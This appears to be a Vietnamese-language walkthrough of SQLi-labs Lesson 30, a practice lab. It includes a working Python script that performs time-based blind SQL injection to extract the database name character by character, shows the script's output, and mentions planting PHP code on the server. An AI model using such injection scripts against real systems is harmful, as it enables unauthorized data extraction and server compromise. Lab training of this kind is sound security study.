









# Less 30

Đề bài cho phép truyền ID vào từ URL



Truyền thử giá trị



Tìm cách để injection



Ta thấy ko hiên thị lỗi

Tiếp tục thử





Ta thấy có thể khai thác được thông qua error based





Dựa vào đây tôi có thể sử dụng script như những bài trước để show các thông tin trong DB

```
import requests
import time
import string

url_1 = 'http://192.168.84.233/sqli-labs/Less-30/?id=1" and if(substr(('
query = "select database()"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả

```
python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
```

Tương tự vậy ta có thể show các thông tin khác

Ta cũng có thể thêm đoạn code PHP lên server như những bài trước



